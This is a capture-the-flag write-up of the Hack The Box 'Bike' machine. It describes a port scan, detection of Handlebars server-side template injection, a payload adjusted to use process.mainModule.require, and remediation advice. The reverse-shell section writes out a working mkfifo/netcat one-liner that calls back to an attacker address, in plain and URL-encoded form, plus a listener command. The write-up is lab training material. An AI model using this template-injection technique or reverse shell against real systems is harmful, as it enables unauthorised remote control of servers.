# CTF Write-up — bike from hackthebox.com

> **Summary:** Exploited a Handlebars server-side template injection (SSTI) using `process.mainModule.require` to spawn a reverse shell, escalate to root, and capture the flag.  
> **Difficulty:** Very Easy  
> **HTB:** https://app.hackthebox.com/starting-point
>
![Tactics](https://img.shields.io/badge/Tactics-SSTI%20%7C%20Payload%20Dev%20%7C%20RCE-blue?style=flat-square)
![Tools](https://img.shields.io/badge/Tools-Burp%20%7C%20Nmap-red?style=flat-square)



---

## Table of contents
1. [Reconnaissance](#reconnaissance)
2. [Resource development](#resource-development)
3. [Initial access](#initial-access)
4. [Privilege escalation](#privilege-escalation)
5. [Findings & recommendations](#findings--recommendations)

---

## 1. Reconnaissance

### Port scan
- Performed an `nmap` scan and enumerated open services. See `evidences/nmap.txt`.  
```bash
nmap -sV -sS 10.129.84.44 -oN nmap.txt
```
- Results (high-level):
  - `80/tcp` — HTTP (tcpwrapped)
  - `22/tcp` — SSH

### Template testing & fingerprinting
- Performed simple template tests (e.g. `{{7*7}}`) and observed rendered output.  
- Determined template engine: **Handlebars**: ![SSTI](evidences/server-side_template_injection_output.png)

---

## 2. Resource development

### References and initial exploit idea
- Referenced [HackTricks — SSTI / Handlebars](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars) for RCE idea.

### Payload engineering
- Initial payload from HackTricks failed because `require` was not available in the expected scope: ![burpsuite fixed payload](evidences/burpsuite_payload.png) 
- Adjusted approach to use `process.mainModule.require`: ![burpsuite fixed payload](evidences/fixed_burpsuite_payload.png)

### Reverse shell
- we get from [reverse shell generator](https://www.revshells.com/) the reverse shell code to inject as payload:
``` bash
# regular version
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.25 9000 >/tmp/f
# url encode version (the one that will be used)
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.25%209000%20%3E%2Ftmp%2Ff
```

### Listener
- Started a netcat listener to receive the reverse shell:
```bash
nc -lvnp 9000
```

---

## 3. Initial access
- Delivered the payload via Burp Suite and obtained iteractive shell as root: ![root shell](evidences/root_access.png)  
- Retrieved flag:  
![root flag](evidences/flag.png)

---

## 4. Privilege escalation
> *Section intentionally left concise — see `Findings & recommendations` for mitigation and next steps.*

---

## 5. Findings & recommendations
- not necessary in this case, since we accessed directly as `root`.

### Key findings
|  # | Category                                      | Description                                                                                                                                                                    | Impact                                                                                                           |
| -: | --------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
|  1 | **Template Injection (SSTI)**                 | The web application accepted and rendered user-supplied Handlebars templates, allowing server-side template injection (SSTI).                                                  | **High**        |
|  2 | **Remote Code Execution via Template Engine** | The application environment and templating flow permitted crafted templates to execute arbitrary code or access privileged contexts, resulting in remote code execution (RCE). | **Critical** |




### Immediate remediation (high-level)
1. **Sanitize/validate** all user-controllable template inputs; avoid directly rendering user-supplied strings as templates.  
2. **Use a safe templating mode** or a sandboxed rendering environment when possible.  
3. **Harden Node.js process permissions** and follow principle of least privilege for app user accounts.  
4. **Update dependencies** and apply platform security best-practices (CSP, input validation, dependency scanning).  
5. **Audit logs** to detect exploitation attempts, and rotate secrets/keys if there was suspected exposure.
